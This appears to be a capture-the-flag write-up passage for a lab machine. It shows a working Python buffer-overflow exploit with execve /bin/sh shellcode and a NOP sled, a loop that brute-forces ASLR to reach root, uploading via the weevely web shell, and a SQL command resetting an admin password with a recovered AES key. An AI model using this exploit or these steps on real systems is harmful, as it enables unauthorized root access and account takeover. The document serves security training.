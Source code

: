 ```python
import struct
pad = "\x41" * 171
EIP = struct.pack("I", 0xbfe0e210)

shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
NOP = "\x90" * 20000
print pad + EIP + NOP + shellcode
```

- Fill all the buffer with 'A'
- Put last address inside EIP target
- Shellcode
- Massive NOP sled : 20000

Order is also different in order to be unlimited in NOP sled size.

I uploaded it with `weevely` using `:file_upload` command, named `exploit_aslr.py`

First try on VM:
```
clapton@debian:~$ for i in {0..100}; do ./input $(/tmp/exploit_aslr.py): done
Segmentation fault
Segmentation fault
Segmentation fault
...
clapton@debian:~$

```

Unlucky. Second try, with 1000 occurences :

```
clapton@debian:~$ for i in {0..1000}; do ./input $(/tmp/exploit_aslr.py): done
Segmentation fault
Segmentation fault
Segmentation fault
...
#
```

Got it ! The `#` indicates we are root :

```
# whoami
whoami
root
#
```

Now I can flag the `root.txt`.

## Deadends

### Web app
- Using weevely, start SQL console and search for admin credentials.
- It is encrypted, find in `var/www/html/include/classes/Accounts.class.php` that is AES encryption
  with salt.
- Update admin password : `update microblog.mb101_accounts set password = AES_ENCRYPT('pass','p52plaiqb8') WHERE id = 1;`
- Logged as admin... Nothing !
